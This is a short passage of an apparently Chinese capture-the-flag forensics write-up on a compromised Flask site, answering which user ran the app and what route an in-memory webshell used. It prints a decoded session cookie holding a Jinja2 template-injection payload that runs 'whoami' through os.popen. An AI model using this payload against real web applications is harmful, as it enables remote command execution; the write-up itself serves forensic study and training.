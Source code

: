 题目内容：flask网站由哪个用户启动？

寻找返回http数据包中包含Set-Cookie

```bash
tcp contains "Set-Cookie" and http.response.code==200
```

![1](./../../2023/08/28/hd3/1.webp)

![2](./../../2023/08/28/hd3/2.webp)

![3](./../../2023/08/28/hd3/3.webp)

```python
python .\flask_session_cookie_manager3.py  decode -c ".eJwdylsKAyEMQNGtFEGiUGYBs5VpkRQz04AvjNIPce-t_TyXO9QZ8FK7quQfSd1VF6oJI_3S0HzehEQ4p60Xj43MgPXDHrhIjwc4d4X8wiDOwfNPatwoLhrIAvaAkgulxc87Y2SwWyX0xk6r59CUPJ96qvkFHeUvmg.YpIQkg.65xf8l2g9fXAImkfyihId46KkY4"

b'{"flag":"red\\n","username":"{%if session.update({\'flag\':lipsum[\'__globals__\'][\'__getitem__\'](\'os\')[\'popen\'](\'whoami\').read()})%}{%endif%}"}'
```

答案 `red`

## hacked_4

题目内容：攻击者写入的内存马的路由名叫什么？（答案里不需要加/）

![1](./../../2023/08/28/hd4/1.webp)

![2](./../../2023/08/28/hd4/2.webp)

答案 `Index`


